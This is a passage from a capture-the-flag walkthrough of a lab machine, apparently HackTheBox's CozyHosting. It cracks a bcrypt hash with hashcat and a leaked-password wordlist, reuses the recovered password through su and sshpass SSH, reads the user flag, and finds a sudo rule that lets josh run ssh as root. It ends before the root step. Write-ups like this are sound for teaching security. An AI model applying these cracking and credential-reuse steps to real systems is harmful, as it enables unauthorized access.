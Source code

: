 3200 is the most generic type, so I’ll start with that:

    
    
    $ hashcat hashes --user -m 3200 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
    ...[snip]...
    

admin’s password is “manchesterunited”.

### su / SSH

The other user on the box is josh, and that password works with `su`:

    
    
    app@cozyhosting:/$ su - josh
    Password: 
    josh@cozyhosting:~$
    

Or I can get a clean shell with SSH:

    
    
    oxdf@hacky$ sshpass -p manchesterunited ssh josh@cozyhosting.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
    ...[snip]..
    josh@cozyhosting:~$ 
    

Either way, I can grab `user.txt`:

    
    
    josh@cozyhosting:~$ cat user.txt
    30628c91************************
    

## Shell as root

### Enumeration

The josh user can run `ssh` as root using `sudo`:

    
    
    josh@cozyhosting:~$ sudo -l
    [sudo] password for josh: 
    Matching Defaults entries for josh on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    
    User josh may run the following commands on localhost:
        (root) /usr/bin/ssh *
    

### Execution
